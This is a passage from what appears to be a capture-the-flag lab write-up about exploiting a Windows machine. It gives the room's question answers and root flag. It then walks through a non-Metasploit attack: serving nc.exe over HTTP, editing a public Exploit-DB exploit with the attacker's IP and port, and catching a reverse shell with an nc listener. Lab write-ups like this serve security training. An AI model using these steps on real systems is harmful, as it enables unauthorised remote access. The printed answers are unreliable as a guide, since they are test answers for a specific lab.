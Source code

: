 C:\Users\Administrator\Desktop>type root.txt
type root.txt
9af5f314f57607c00fd09803a587db8
C:\Users\Administrator\Desktop>
</pre>
</li>
</ol>


### Questions
- Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?
    - AdvancedSystemCareService9
- What is the root flag?
    - 9af5f314f57607c00fd09803a587db8

## Access and Escalation Without Metasploit 

### Initial foothold
This one is probably the most fun. We'll do some preliminary steps first:
<ol style="list-style:decimal">
<li>Get netcat static binary: https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe and rename it to nc.exe (we're renaming this because the exploit we're going to use is expecting this file name)</li>
    - Put this in a folder (let's say ~/Desktop/nc)
<li>Get the python script at https://www.exploit-db.com/exploits/39161 and we'll randomly name it as <code>exploit.py</code></li>
    - Modify the variable <code>ip_addr</code> to be the attacking system's IP address (10.6.49.162)
    - Modify the <code>local_port</code> variable to the port number where we're going to listen via netcat, let's just do 8888 in this example
<li>We're going to need 3 separate terminals</li>
    - In one terminal, we'll set up : 
   - <code>cd ~/Desktop/nc</code> (which contains our <code>nc.exe</code>) 
   <code>sudo python3 -m http.server 80</code> (we need to specify port 80 since the python script is specifically looking at port 80, which also means we'll need <code>sudo</code>, since this is a privileged port)
   - We will use the web server to pass things back and forth between the attacking machine and target machine
    - In the 2nd terminal, we'll set up a netcat listener:
   - <code>nc -lvnp 8888</code>
    - 3rd terminal, we'll use to run the python scripts and move things back and forth. For right now, we'll run the python script a few times. The first time will be 
   - <code>python exploit.py</code>
<li>Once we run the python script 2 or more times, we should hopefully see the following on our netcat listener:
<pre>
ubuntu@kali:~$ nc -lvnp 8888
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.225.45.
Ncat: Connection from 10.10.225.45:49265.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

